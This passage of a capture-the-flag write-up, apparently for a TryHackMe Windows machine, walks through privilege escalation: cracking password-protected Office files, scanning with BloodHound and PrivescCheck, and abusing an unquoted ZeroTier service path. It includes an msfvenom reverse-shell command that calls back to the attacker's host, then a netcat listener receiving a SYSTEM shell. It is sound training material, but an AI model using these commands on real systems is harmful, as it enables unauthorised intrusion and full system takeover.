[*] CurrentsImpersonationLevel: Identification
[*] Start Search System Token
[*] Find System Token : False
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
[!] Cannot create process Win32Error:1314
```

While exploring the target host, I discovered two Office documents in `C:\\WorkShare` . Both files were password-protected. I extracted the hashes using `office2john` , but the cracking process was not yielding immediate results so I decided to move on to other enumeration methods.

```cmd
C:\\WorkShare>dir
 Volume in drive C has no label.
 Volume Serial Number is 7CD9-A0AE

 Directory of C:\\WorkShare

03/14/2021  06:47 PM    <DIR>          .
03/14/2021  06:47 PM    <DIR>          ..
03/14/2021  06:46 PM            15,360 RSA-Secured-Credentials.xlsx
03/14/2021  06:45 PM            18,432 RSA-Secured-Document-PII.docx
               2 File(s)         33,792 bytes
               2 Dir(s)  40,648,404,992 bytes free
```



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ office2john RSA-Secured-Credentials.xlsx > rsa1hash.txt 
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john rsa1hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 AVX 4x / SHA512 128/128 AVX 2x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

## Bloodhound

BloodHound enumeration was performed to map out potential privilege escalation vectors. The results indicated that none of the owned users (nik, bitbucket, or contractor-temp) possessed direct paths to Domain Admins.



## PrivescCheck.ps1

I executed `PrivescCheck.ps1` for automated analysis. The tool identified several high-risk vectors, with the most prominent being an Unquoted Service Path vulnerability.

```powershell
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                 ~~~ PrivescCheck Summary ~~~                 ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
 TA0004 - Privilege Escalation
 - Services - Image File Permissions → High
 - Services - Unquoted Paths → High
 - Updates - Update History → Medium
 - User - Privileges → High
 TA0006 - Credential Access
 - Hardening - Credential Guard → Low
 - Hardening - LSA Protection → Low
 TA0008 - Lateral Movement
 - Hardening - LAPS → Medium
Name              : zerotieroneservice
ImagePath         : C:\\Program Files (x86)\\Zero Tier\\Zero Tier One\\ZeroTier One.exe
User              : LocalSystem
Status            : Stopped
UserCanStart      : True
UserCanStop       : True
ModifiablePath    : C:\\Program Files (x86)\\Zero Tier
IdentityReference : BUILTIN\\Users (S-1-5-32-545)
Permissions       : AddFile, AddSubdirectory, WriteExtendedAttributes, WriteAttributes, Synchronize

Name              : zerotieroneservice
ImagePath         : C:\\Program Files (x86)\\Zero Tier\\Zero Tier One\\ZeroTier One.exe
User              : LocalSystem
Status            : Stopped
UserCanStart      : True
UserCanStop       : True
ModifiablePath    : C:\\Program Files (x86)\\Zero Tier\\Zero Tier One
IdentityReference : BUILTIN\\Users (S-1-5-32-545)
Permissions       : AddFile, AddSubdirectory, WriteExtendedAttributes, WriteAttributes, Synchronize

[*] Status: Vulnerable - Severity: High - Execution time: 00:00:00.604
```

Manual verification with `icacls` and `accesschk` confirmed that the current session has write access to the `C:\\Program Files (x86)\\Zero Tier` directory.

```cmd
C:\\Users\\bitbucket\\Desktop>icacls "C:\\Program Files (x86)\\Zero Tier"
C:\\Program Files (x86)\\Zero Tier BUILTIN\\Users:(OI)(CI)(W)
                                 NT SERVICE\\TrustedInstaller:(I)(F)
                                 NT SERVICE\\TrustedInstaller:(I)(CI)(IO)(F)
                                 NT AUTHORITY\\SYSTEM:(I)(F)
                                 NT AUTHORITY\\SYSTEM:(I)(OI)(CI)(IO)(F)
                                 BUILTIN\\Administrators:(I)(F)
                                 BUILTIN\\Administrators:(I)(OI)(CI)(IO)(F)
                                 BUILTIN\\Users:(I)(RX)
                                 BUILTIN\\Users:(I)(OI)(CI)(IO)(GR,GE)
                                 CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)
                                 APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                 APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                 APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
C:\\Users\\bitbucket\\Desktop>.\\accesschk.exe -accepteula -u bitbucket "C:\\Program Files (x86)"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

R  C:\\Program Files (x86)\\Common Files
R  C:\\Program Files (x86)\\desktop.ini
R  C:\\Program Files (x86)\\Google
R  C:\\Program Files (x86)\\Internet Explorer
R  C:\\Program Files (x86)\\Microsoft.NET
R  C:\\Program Files (x86)\\Uninstall Information
R  C:\\Program Files (x86)\\Windows Defender
R  C:\\Program Files (x86)\\Windows Mail
R  C:\\Program Files (x86)\\Windows Media Player
R  C:\\Program Files (x86)\\Windows Multimedia Platform
R  C:\\Program Files (x86)\\windows nt
R  C:\\Program Files (x86)\\Windows Photo Viewer
R  C:\\Program Files (x86)\\Windows Portable Devices
R  C:\\Program Files (x86)\\Windows Sidebar
R  C:\\Program Files (x86)\\WindowsPowerShell
RW C:\\Program Files (x86)\\Zero Tier
```

I also confirmed that the current user can restart the service to trigger the exploit.

```cmd
C:\\Users\\bitbucket\\Desktop>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\\Users\\bitbucket\\Desktop> try { Restart-Service -Name zerotieroneservice -WhatIf; echo "You have permission to restart the service" } catch { "You do not have permission to restart the service" }
What if: Performing the operation "Restart-Service" on target "zerotieroneservice (zerotieroneservice)".
You have permission to restart the service
```

I generated a reverse shell payload using `msfvenom` and specifically named it `Zero.exe` as it targets the first space in the unquoted service path.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.176.157 LPORT=80 -f exe > Zero.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

I transferred the payload to the target machine and placed it within the `C:\\Program Files (x86)\\Zero Tier\\` directory.



# Shell as `SYSTEM`

Upon restarting the service, the Windows executed my malicious `Zero.exe` binary, which triggered reverse shell callback to my listener, granting me a shell with `SYSTEM` privileges.

```powershell
PS C:\\Users\\bitbucket\\Desktop> net stop zerotieroneservice
The zerotieroneservice service is not started.

More help is available by typing NET HELPMSG 3521.

PS C:\\Users\\bitbucket\\Desktop> net start zerotieroneservice
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80              
listening on [any] 80 ...
connect to [192.168.176.157] from (UNKNOWN) [10.81.178.188] 51028
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
nt authority\\system
```

Found `root.txt`

```cmd
C:\\Users\\Administrator\\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7CD9-A0AE

 Directory of C:\\Users\\Administrator\\Desktop

03/14/2021  06:48 PM    <DIR>          .
03/14/2021  06:48 PM    <DIR>          ..
03/14/2021  06:49 PM                37 root.txt
               1 File(s)             37 bytes
               2 Dir(s)  40,632,434,688 bytes free

C:\\Users\\Administrator\\Desktop>type root.txt
type root.txt
THM{1a1...
```